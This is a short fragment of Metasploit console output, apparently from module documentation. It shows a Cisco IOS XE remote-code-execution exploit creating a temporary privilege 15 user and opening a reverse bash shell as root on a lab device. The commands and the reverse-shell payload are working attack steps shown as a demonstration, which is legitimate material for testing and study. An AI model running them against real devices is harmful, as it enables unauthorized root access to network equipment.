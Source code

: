 ```
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'JJgILIEn' with password 'EkMpGWih'
[*] Removing user 'JJgILIEn'
[*] Command shell session 12 opened (192.168.86.122:4444 -> 192.168.86.114:61982) at 2025-03-03 20:38:16 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux test2_c1000v 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.114 - Command shell session 12 closed.
msf exploit(linux/misc/cisco_ios_xe_rce) > 
```
